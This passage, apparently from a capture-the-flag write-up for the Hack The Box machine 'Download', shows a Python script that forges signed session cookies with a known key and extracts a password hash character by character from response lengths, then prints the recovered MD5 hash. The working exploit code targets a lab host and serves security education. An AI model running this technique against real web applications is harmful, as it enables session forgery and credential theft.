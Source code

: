 ```python
  # Serializing json
  json_object = json.dumps(obj, indent=4)
 
  # Writing to sample.json
  with open("jsoncookie.json", "w") as outfile:
      outfile.write(json_object)


def sendrequest(cookies):
    proxies = {
   'http': 'http://127.0.0.1:8080',
   'https': 'http://127.0.0.1:8080',
    }

    url = 'http://download.htb/home/'
    cookies = {
      'download_session': cookies["download_session"],
      'download_session.sig': cookies["download_session.sig"]
    }
    response = requests.get(url, cookies=cookies,proxies=proxies)
    return response

if __name__ == '__main__':
    characters=generate_all_characters()
    pwd=""
    while True:
      for character in characters:
        createjsonfile(character,pwd)

        stream = os.popen("npx @digital-interruption/cookie-monster  -e -k 8929874489719802418902487651347865819634518936754 -n download_session -f jsoncookie.json -o res.txt")
        output = stream.read()
     
        splitoutput = output.split("[+]")

        for line in splitoutput:

           if "Data Cookie:" in line:
                data = line.split("download_session=")[1]
                data2 = remove_control_characters(data).replace("[32m", "").replace("[39m", "")
           if "Signature Cookie:" in line:
                sig = line.split("download_session.sig=")[1]
                sig2 = remove_control_characters(sig).replace("[39m", "")
           
        cookies = {"download_session":data2,"download_session.sig":sig2}
      
        response = sendrequest(cookies)
        if len(response.content) > 2167:
          pwd=pwd+character
          print(pwd)
          break

    print("NO MORE CHARACTERS FOUND ")
    print(pwd)
```
After running the python script for a while we obtained the following md5 hash.
```
f88976c10af66915918945b9679b2bd3
```
